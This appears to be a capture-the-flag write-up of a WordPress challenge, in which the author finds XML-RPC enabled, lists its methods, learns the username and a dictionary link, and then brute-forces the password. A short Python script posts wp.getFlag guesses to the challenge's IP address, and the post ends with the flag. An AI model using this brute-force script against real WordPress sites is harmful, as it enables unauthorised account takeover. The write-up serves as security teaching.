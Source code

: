 ```yaml
---
layout: post
title:  "HZVII - $uper $ecure WP Blog"
author: "PsycoR"
tags: HZVII web
---
```


>  WordPress accounted for 90% of all hacked CMS sites in 2018, some WordPress features should be disabled or removed completely if it is not being used to avoid any potential risks. Otherwise, it should at the very least be blocked from external access.





## Steps
- The first thought that comes to mind is to try access default login interface of wordpress but Oops you can not

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp0.png)

- The source code shows that we need to be authenticated to get the flag, so how to authenticate without login interface ?

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp1.png)

- Simple scan with wpscan shows that the XML-RPC Interface is enabled

>In wp challenges people generally think about vulnerable plugins which is not the case here so what is XML-RPC ?

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp2.png)

>XML-RPC on WordPress is actually an API or “application program interface“. It gives developers who make mobile apps, desktop apps and other services the ability to talk to your WordPress site. The XML-RPC API that WordPress provides gives developers a way to write applications (for you) that can do many of the things that you can do when logged into WordPress via the web interface. These include: Publish a post Edit a post Delete a post. Upload a new file (e.g. an image for a post) Get a list of comments Edit comments

- List available methods

> The first thing to do now is send a POST request and list all the available methods , why ? cause that’s how we’ll know which actions are even possible to make and potentially use one of them for an attack. 

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp3.png)


- Interresting method founded demo.getFlag

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp4.png)

> The flag is not here :'(

- Digging deeper for availible methods

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp5.png)

> A dictionnary link was founded in the method getFavouriteWords, maybe we need it later

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp6.png)
 
> Another method wp.getFlag seems interresting

- Call wp.getFlag

> The request need more arguements certainly the user & password :)

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp7.png)


- The user who posted the first article in the blog is psycor

> We know our user ;)

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp8.png)

- Now it's time to bruteforce the password using the dictionary previously founded

> We can differentiate successful credentials by response length.

```python
import requests


headers = {'Content-Type': 'text/xml'}

cracklist = open("dic.txt", "r")
for password in cracklist.readlines():
	password = password.strip("\n")
	xml = """<methodCall>
<methodName>wp.getFlag</methodName>
<params>
<param><value>psycor</value></param>
<param><value>"""+password+"""</value></param>
</params>
</methodCall>"""
	response = requests.post('http://51.83.41.116/xmlrpc.php', data=xml, headers=headers)
	if len(response.content) != 403:
		print("Password Founded:= "+password)
		print(response.text)
		break

```

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp9.png)

> The flag is : HZVII{50m371m35_xml_rpc_15_d4n63r0u5}





